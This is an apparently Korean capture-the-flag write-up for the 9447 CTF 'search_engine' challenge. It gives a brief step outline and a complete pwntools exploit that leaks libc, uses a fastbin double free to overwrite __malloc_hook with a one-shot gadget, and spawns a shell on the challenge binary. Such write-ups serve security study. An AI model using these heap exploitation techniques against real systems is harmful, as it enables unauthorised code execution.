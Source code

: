 # 9447ctf - search_engine



먼저 smallbin을 만들고 search를 이용하여 libc leak

fastbin 3개를 만들고 double free

fd를 __malloc_hook-35로 설정

__malloc_hook -> oneshot

get shell



<div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div><div style="line-height:130%">2</div><div style="line-height:130%">3</div><div style="line-height:130%">4</div><div style="line-height:130%">5</div><div style="line-height:130%">6</div><div style="line-height:130%">7</div><div style="line-height:130%">8</div><div style="line-height:130%">9</div><div style="line-height:130%">10</div><div style="line-height:130%">11</div><div style="line-height:130%">12</div><div style="line-height:130%">13</div><div style="line-height:130%">14</div><div style="line-height:130%">15</div><div style="line-height:130%">16</div><div style="line-height:130%">17</div><div style="line-height:130%">18</div><div style="line-height:130%">19</div><div style="line-height:130%">20</div><div style="line-height:130%">21</div><div style="line-height:130%">22</div><div style="line-height:130%">23</div><div style="line-height:130%">24</div><div style="line-height:130%">25</div><div style="line-height:130%">26</div><div style="line-height:130%">27</div><div style="line-height:130%">28</div><div style="line-height:130%">29</div><div style="line-height:130%">30</div><div style="line-height:130%">31</div><div style="line-height:130%">32</div><div style="line-height:130%">33</div><div style="line-height:130%">34</div><div style="line-height:130%">35</div><div style="line-height:130%">36</div><div style="line-height:130%">37</div><div style="line-height:130%">38</div><div style="line-height:130%">39</div><div style="line-height:130%">40</div><div style="line-height:130%">41</div><div style="line-height:130%">42</div><div style="line-height:130%">43</div><div style="line-height:130%">44</div><div style="line-height:130%">45</div><div style="line-height:130%">46</div><div style="line-height:130%">47</div><div style="line-height:130%">48</div><div style="line-height:130%">49</div><div style="line-height:130%">50</div><div style="line-height:130%">51</div><div style="line-height:130%">52</div><div style="line-height:130%">53</div><div style="line-height:130%">54</div><div style="line-height:130%">55</div><div style="line-height:130%">56</div><div style="line-height:130%">57</div><div style="line-height:130%">58</div><div style="line-height:130%">59</div><div style="line-height:130%">60</div><div style="line-height:130%">61</div><div style="line-height:130%">62</div><div style="line-height:130%">63</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">from</span>&nbsp;pwn&nbsp;<span style="color:#a71d5d">import</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">*</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">def</span>&nbsp;search(size,word):</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'3:&nbsp;Quit\n'</span>,<span style="color:#63a35c">'1'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'size:'</span>,<span style="color:#066de2">str</span>(size))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sa(<span style="color:#63a35c">'word:'</span>,word)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">def</span>&nbsp;index(size,sentence):</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'3:&nbsp;Quit\n'</span>,<span style="color:#63a35c">'2'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'size:'</span>,<span style="color:#066de2">str</span>(size))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sa(<span style="color:#63a35c">'sentence:'</span>,sentence)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">r<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>process(<span style="color:#63a35c">'./search'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">e<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>ELF(<span style="color:#63a35c">'./search'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">libc<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>e.libc</div><div style="padding:0 6px; white-space:pre; line-height:130%">oneshot<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span><span style="color:#0099cc">0x4526a</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">sla<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>r.sendlineafter</div><div style="padding:0 6px; white-space:pre; line-height:130%">sa<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>r.sendafter</div><div style="padding:0 6px; white-space:pre; line-height:130%">ru<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>r.recvuntil</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">pay<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span><span style="color:#63a35c">'s'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">0x85</span><span style="color:#a71d5d">+</span><span style="color:#63a35c">'&nbsp;m'</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">index(<span style="color:#066de2">len</span>(pay),pay)</div><div style="padding:0 6px; white-space:pre; line-height:130%">search(<span style="color:#0099cc">1</span>,<span style="color:#63a35c">'m'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">sla(<span style="color:#63a35c">'?'</span>,<span style="color:#63a35c">'y'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">search(<span style="color:#63a35c">'1'</span>,<span style="color:#63a35c">'\x00'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">ru(<span style="color:#63a35c">'Found&nbsp;135:&nbsp;'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">leak<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>u64(r.recv(<span style="color:#0099cc">6</span>).ljust(<span style="color:#0099cc">8</span>,<span style="color:#63a35c">'\x00'</span>))<span style="color:#0086b3"></span><span style="color:#a71d5d">-</span><span style="color:#0099cc">0x3c4b78</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">log.info(hex(leak))</div><div style="padding:0 6px; white-space:pre; line-height:130%">sla(<span style="color:#63a35c">'?'</span>,<span style="color:#63a35c">'n'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">pay<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span><span style="color:#63a35c">'A'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">0x5d</span><span style="color:#a71d5d">+</span><span style="color:#63a35c">'&nbsp;a&nbsp;'</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">index(<span style="color:#066de2">len</span>(pay),pay)</div><div style="padding:0 6px; white-space:pre; line-height:130%">index(<span style="color:#066de2">len</span>(pay),pay)</div><div style="padding:0 6px; white-space:pre; line-height:130%">index(<span style="color:#066de2">len</span>(pay),pay)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">search(<span style="color:#0099cc">1</span>,<span style="color:#63a35c">'a'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">sla(<span style="color:#63a35c">'?'</span>,<span style="color:#63a35c">'y'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">sla(<span style="color:#63a35c">'?'</span>,<span style="color:#63a35c">'y'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">sla(<span style="color:#63a35c">'?'</span>,<span style="color:#63a35c">'y'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">search(<span style="color:#0099cc">1</span>,<span style="color:#63a35c">'\x00'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">sla(<span style="color:#63a35c">'?'</span>,<span style="color:#63a35c">'y'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">sla(<span style="color:#63a35c">'?'</span>,<span style="color:#63a35c">'y'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">sla(<span style="color:#63a35c">'?'</span>,<span style="color:#63a35c">'n'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">pay<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(leak<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>libc.symbols[<span style="color:#63a35c">'__malloc_hook'</span>]<span style="color:#0086b3"></span><span style="color:#a71d5d">-</span><span style="color:#0099cc">35</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">2</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">pay<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>pay.ljust(<span style="color:#0099cc">0x5e</span>,<span style="color:#63a35c">'A'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span><span style="color:#63a35c">'A'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">19</span><span style="color:#a71d5d">+</span>p64(leak<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0099cc">0xf02a4</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>payload.ljust(<span style="color:#0099cc">0x5d</span>,<span style="color:#63a35c">'A'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">index(<span style="color:#066de2">len</span>(pay),pay)</div><div style="padding:0 6px; white-space:pre; line-height:130%">index(<span style="color:#066de2">len</span>(pay),pay)</div><div style="padding:0 6px; white-space:pre; line-height:130%">index(<span style="color:#066de2">len</span>(pay),pay)</div><div style="padding:0 6px; white-space:pre; line-height:130%">index(<span style="color:#066de2">len</span>(payload),payload)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">r.interactive()</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div></div><div style="text-align:right;margin-top:-13px;margin-right:5px;font-size:9px;font-style:italic"><a href="http://colorscripter.com/info#e" target="_blank" style="color:#e5e5e5text-decoration:none">Colored by Color Scripter</a></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div>

